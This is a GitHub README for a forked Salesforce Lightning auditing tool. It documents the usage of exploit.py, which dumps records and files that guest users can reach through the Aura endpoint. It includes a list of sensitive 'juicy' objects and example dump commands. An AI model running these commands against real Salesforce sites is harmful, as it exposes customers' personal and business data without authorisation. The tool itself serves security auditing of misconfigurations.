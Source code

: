 # Salesforce Lightning Auditor
Forked from poc_salesforce_lightning by moniik

Additions:
+ Auto download of files accessible to guests

This tool dumps the data of Salesforce object through Aura lightning endpoint with the guest privilege.


# Requirement
- Python3 

# Usage
```
$ python3 exploit.py -h
usage: exploit.py [-h] -u URL [-o [OBJECTS [OBJECTS ...]]] [-l] [-c]
                  [-a AURA_CONTEXT] [-r RECORD_ID] [-d] [-f] [-s]

Exploit Salesforce through the aura endpoint with the guest privilege

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     set the SITE url. e.g. http://url/site_path
  -o [OBJECTS [OBJECTS ...]], --objects [OBJECTS [OBJECTS ...]]
                        set the object name. Default value is "User" object.
                        Juicy Objects: Case,Account,User,Contact,Document,Cont
                        entDocument,ContentVersion,ContentBody,CaseComment,Not
                        e,Employee,Attachment,EmailMessage,CaseExternalDocumen
                        t,Attachment,Lead,Name,EmailTemplate,EmailMessageRelat
                        ion
  -l, --listobj         pull the object list.
  -c, --check           only check aura endpoint
  -a AURA_CONTEXT, --aura_context AURA_CONTEXT
                        set your valid aura_context
  -r RECORD_ID, --record_id RECORD_ID
                        set the recode id to dump the record
  -d, --dump_objects    dump a small number of objects accessible to guest
                        users and saves them in the file.
  -f, --full            if set with -d, dump all pages of objects.
  -s, --skip            if set with -d, skip the objects already dumped.
```

# Examples 
```
# just list objects
$ python3 exploit.py -u https://domain.force.com/path/ -l

# show User and Account object
$ python3 exploit.py -u https://domain.force.com/path/ -o User Account

# save all objects(only page 1)
$ python3 exploit.py -u https://domain.force.com/path/ -d -s
```

# Reference
- Salesforce Lightning - An in-depth look at exploitation vectors for the everyday community
  - https://www.enumerated.de/index/salesforce
